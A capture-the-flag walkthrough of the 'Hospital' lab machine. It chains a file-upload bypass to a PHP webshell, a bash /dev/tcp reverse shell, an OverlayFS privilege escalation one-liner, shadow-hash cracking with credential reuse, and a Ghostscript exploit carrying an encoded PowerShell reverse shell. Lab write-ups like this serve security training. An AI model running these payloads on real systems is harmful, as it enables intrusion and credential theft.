## Enumeration
Initial nmap:
```
Nmap scan report for 10.129.160.0
Host is up (0.053s latency).

PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:4b:4b:3a:6d:18:66:69:39:f7:aa:74:b3:16:0a:aa (ECDSA)
|_  256 96:c1:dc:d8:97:20:95:e7:01:5f:20:a2:43:61:cb:ca (ED25519)
53/tcp   open  domain?
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-19 02:48:34Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-19T02:50:51+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6059/tcp open  msrpc             Microsoft Windows RPC
6404/tcp open  msrpc             Microsoft Windows RPC
6406/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
6407/tcp open  msrpc             Microsoft Windows RPC
6409/tcp open  msrpc             Microsoft Windows RPC
6614/tcp open  msrpc             Microsoft Windows RPC
6634/tcp open  msrpc             Microsoft Windows RPC
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
9389/tcp open  mc-nmf            .NET Message Framing
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-19T02:50:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m01s, deviation: 0s, median: 7h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.10 seconds
```
Despite being listed as a Windows machine, we can see an open ssh port enumerated as an ubuntu service. Additionally, port 8080 is running Apache httpd Ubuntu. Quite peculiar. Otherwise, this machine clearly looks like a Domain Controller for Active Directory. Before all else, it is good to create an entry in the /etc/hosts file for this:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.129.160.0 hospital.htb
```

Visiting the main page on HTTPS (443), we see a webmail login entry:



Enumerating directories with feroxbuster:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ feroxbuster -u https://hospital.htb -k

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
<...SNIP...>
403      GET       11l       47w      422c https://hospital.htb/phpmyadmin
200      GET      243l     2447w   262502c https://hospital.htb/plugins/jqueryui/js/jquery-ui.min.js
200      GET       97l      333w     5322c https://hospital.htb/
301      GET        9l       30w      343c https://hospital.htb/installer => https://hospital.htb/installer/
<...SNIP...>
```
Feroxbuster identifies `installer` as a subdirectory, which we now can tell very clearly that the web server is running `roundcube`:



There is also the open HTTP page on port 8080. Visiting this, we see another login page with a critical difference. In this one it appears we can create an account:



Upon creating an account and logging in, we can see there is an upload functionality for us:


With another feroxbuster, we can see the files are likely going to `http://hospital.htb:8080/uploads/`:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ feroxbuster -u http://hospital.htb:8080 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
<...SNIP...>
302      GET        0l        0w        0c http://hospital.htb:8080/ => login.php
301      GET        9l       28w      320c http://hospital.htb:8080/images => http://hospital.htb:8080/images/
301      GET        9l       28w      321c http://hospital.htb:8080/uploads => http://hospital.htb:8080/uploads/
<...SNIP...>
```
## Foothold 1
### Abusing file upload capabilities
If we try to upload a non-image file, we are redirected to a failure page. This is best visualized in burpsuite:



By altering the filename extension, we can tell very quickly that this is an extension blacklist going on. A simple bypass might be to include uppercase letters, ex ".pHp", however this does not work.



We can try a [list of alternative extensions](https://book.hacktricks.xyz/pentesting-web/file-upload) that might not be blacklisted. Eventually, we might find an extension that is accepted, but also treated as php: `.phar`. 



When visiting the reverse shell link, we see an error message. In other cases where the file is not treated as php, we would instead see our php code reflected as raw text.



On my nc listener, I also see a brief connection request, but the connection fails.
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.160.0] 6524
```
#### Troubleshooting php payloads
My first thinking is that because this is a Windows machine, the php reverse shell is not working correctly since the payload is for Linux. We can see this when we look at the `$shell` line:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ head php-reverse-shell.php 
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.134';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```
Next, I tried an extremely simple webshell:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ cat ws.phar                                        
<?php echo shell_exec($_GET['cmd']); ?>
```
The upload works as intended, but there is no output and commands do not reach my nc listener anymore.



After trying a few more things, I land on a working solution: [WhiteWinterWolf's php webshell](https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php)



In a bit of a surprise twist, we are seeing a Linux filesystem and Linux shell commands! It appears the nmap enumeration did not lie, and we are in some sort of Linux container.
To transition into a reverse shell, I uploaded a bash script:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ cat rev.sh  
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.134/8888 0>&1
```
To upload, I use python simple http server:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
In webshell, wget and chmod:
```
wget 10.10.14.134/rev.sh && chmod +x rev.sh
```



We can check with `ls -l`:



And now, we can run the reverse shell:
```
./rev.sh
```
Back on the kali listener:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.160.0] 6512
bash: cannot set terminal process group (964): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$
```
## Privilege Escalation 1
### Enumerating Linux filesystem
We can see a user `drwilliams` on the system, but no access to their home folder:
```
www-data@webserver:/home$ ls -al 
total 12
drwxr-xr-x  3 root       root       4096 Oct 29 02:02 .
drwxr-xr-x 19 root       root       4096 Sep 12 17:23 ..
drwxr-x---  5 drwilliams drwilliams 4096 Oct 29 01:42 drwilliams
```
Checking the /etc/password tells us her full name is Lucy Williams:
```
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```
In the webserver config, we can find MySQL credentials:
```
www-data@webserver:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
`root:my$qls3rv1c3!`.
Unfortunately, there is nothing valuable in the MySQL database. Back on the Domain Controller, we can confirm `drwilliams` is an account used in Active Directory via `kerbrute`:

```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ cat users.txt        
drwilliams
lwilliams
lucywilliams
williamslucy
williamsl

┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ /home/kali/go/bin/kerbrute userenum -d hospital.htb --dc 10.129.160.0 ./users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 11/19/23 - Ronnie Flathers @ropnop

2023/11/19 12:43:21 >  Using KDC(s):
2023/11/19 12:43:21 >   10.129.160.215:88

2023/11/19 12:43:21 >  [+] VALID USERNAME:       drwilliams@hospital.htb
2023/11/19 12:43:21 >  Done! Tested 5 usernames (1 valid) in 0.072 seconds
```
### Abusing OverlayFS
After extensive enumeration of files, I discover on a recent [ubuntu exploit using OverlayFS](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/):
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
  
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```
Executing the payload, we are now root. Note that some input was truncated because my reverse shell was not size adjusted.
```
<are -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
>   
<n3 -c 'import os;os.setuid(0);os.system("bash -i")'
root@webserver:/tmp# whoami
root
root@webserver:/tmp#
```
## Post-Exploitation Collecting
### Cracking password hashes from shadow
Since we know `drwilliams` is a user on this linux virtual machine as well as a user in Active Directory, we can try to crack their /etc/shadow password and hope that it is the same for both services.
```
root@webserver:/tmp# grep drwilliams /etc/shadow
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```
Next, using hashcat to crack:
```
$ hashcat -m 1800 '$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/' /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.5) starting

<...SNIP...>

$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
```
We have a successful crack, `qwe123!@#`.
Confirming that these credentials work for Active Directory:
```
┌──(kali㉿kali)-[~/Documents/Hospital]
└─$ cme smb hospital.htb -u 'drwilliams' -p 'qwe123!@#' 
SMB         hospital.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         hospital.htb    445    DC               [+] hospital.htb\drwilliams:qwe123!@#
```
## Foothold 2
### Accessing roundcube mail service
Unfortunately, drwilliams cannot connect remotely, and there are no interesting  smb shares. We can, however, use these credentials to login to the `roundcube` mailserver discovered earlier on port 443. When we enter, we see a singular email:



Message:
```
Dear Lucy,  
  
I wanted to remind you that the project for lighter, cheaper and  
environmentally friendly needles is still ongoing 💉. You are the one in  
charge of providing me with the designs for these so that I can take  
them to the 3D printing department and start producing them right away.  
Please make the design in an ".eps" file format so that it can be well  
visualized with GhostScript.  
  
Best regards,  
Chris Brown.
```

Note we now know another user, `drbrown`, and potentially a third user Darius Simon, possibly called `drsimon`. We can use the power of Active Directory to disclose all registered users, although it does not help us. `drbrown` and `drwilliams` are confirmed users, but `drsimon` does not exist.
```
┌──(kali㉿kali)-[/opt/peas]
└─$ cme smb hospital.htb -u drwilliams -p 'qwe123!@#' --users 
SMB         hospital.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         hospital.htb    445    DC               [+] hospital.htb\drwilliams:qwe123!@# 
SMB         hospital.htb    445    DC               [+] Enumerated domain user(s)
SMB         hospital.htb    445    DC               hospital.htb\drwilliams                     badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\drbrown                        badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_2fe3f3cbbafa4566a           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_5faa2be1160c4ead8           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_6e9de17029164abdb           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_75554ef7137f41d68           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_e5b6f3aed4da4ac98           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_b1b9e7f83082488ea           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_9326b57ae8ea44309           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_bb030ff39b6c4a2db           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\SM_0559ce7ac4be4fc6a           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\$431000-R1KSAI1DGHMH           badpwdcount: 0 desc: 
SMB         hospital.htb    445    DC               hospital.htb\krbtgt                         badpwdcount: 0 desc: Key Distribution Center Service Account
SMB         hospital.htb    445    DC               hospital.htb\Guest                          badpwdcount: 0 desc: Built-in account for guest access to the computer/domain                                                                                                                                                     
SMB         hospital.htb    445    DC               hospital.htb\Administrator                  badpwdcount: 0 desc: Built-in account for administering the computer/domain
```
### RCE via Ghostscript vulnerability
Back to the email message presented, it is clear they are utilizing `.esp` files, and a tool called Ghostscript. With a quick search, we can find that [ghostscript has a very recent and very serious CVE disclosed](https://www.kroll.com/en/insights/publications/cyber/ghostscript-cve-2023-36664-remote-code-execution-vulnerability). There is a [proof-of-concept script](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) publicly available that we might try. For this, I used the `file.eps` included in the repository, and injected a powershell base64-encoded reverse shell using their exploit script:
```
┌──(kali㉿kali)-[~/Documents/Hospital/CVE-2023-36664-Ghostscript-command-injection]
└─$ python CVE_2023_36664_exploit.py -f file.eps -p "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAzADQAIgAsADgAOAA4ADgAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" -i
[+] Payload successfully injected into file.eps.
```
To send my payload, I attached the malicious `.eps` as a response to the first mail:

